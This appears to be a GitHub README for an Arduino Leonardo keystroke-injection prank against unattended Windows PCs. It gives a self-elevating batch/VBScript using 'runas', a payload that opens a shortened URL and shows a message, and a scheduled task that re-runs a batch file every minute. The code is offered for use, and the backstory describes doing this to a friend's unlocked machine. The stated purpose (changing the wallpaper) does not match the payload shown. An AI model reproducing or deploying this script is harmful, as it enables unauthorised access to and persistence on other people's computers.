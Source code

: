 # Lauxploit

Forked from code of my evil mate [@henyxia](https://www.github.com/henyxia) ...

Will use to change wallpaper automatically (instead of changing internet homepage...)
-> I will only change Part 2

So I create a small script designed for Arduino Leonardo to work as a keyboard and inject a custom task to Windows' task scheduler.

### The first part - the privilege escalation
```
@whoami /groups | find "S-1-16-12288" > nul && goto :admin
set "ELEVATE_CMDLINE=cd /d "%~dp0" & call "%~f0" %*"
findstr "^:::" "%~sf0">temp.vbs
cscript //nologo temp.vbs & del temp.vbs & exit /b
::: Set objShell = CreateObject("Shell.Application")
::: Set objWshShell = WScript.CreateObject("WScript.Shell")
::: Set objWshProcessEnv = objWshShell.Environment("PROCESS")
::: strCommandLine = Trim(objWshProcessEnv("ELEVATE_CMDLINE"))
::: objShell.ShellExecute "cmd", "/c " & strCommandLine, "", "runas"
:admin -------------------------------------------------------------
@echo off
echo.
cmd /k
```

### The second part - the main script
```
start http://goo.gl/x5sPkr"
Msg * "Friendly reminder: NEVER LEAVE YOUR COMPUTER WITHOUT SURVEILLANCE"
```

### The third part - the scheduler

```
schtasks /create /sc minute /mo 1 /tn "Bixploit" /tr C:\Bixploit.bat
```

## And now it runs !
The privilege escalation part is not mandatory but I thought it was fun to put it at the root of "C:\". Also, you need to have the correct keymapping for the Leoanardo.

**Use it for fun only !**

----
Background Story from [@henyxia](https://www.github.com/henyxia) :

A friend of mine [@Biboon](https://www.github.com/biboon) always had the bad idea to leave his computer unlocked.
I told him to lock it, as it might be really unsecure.
I did not.
I changed his homepage to a really "nice" site.
We laught.

Some days later, he did it again. I changed his homepage again. We laught again but he told me that it's not useful to lock a computer if you went AFK less than 20 seconds.
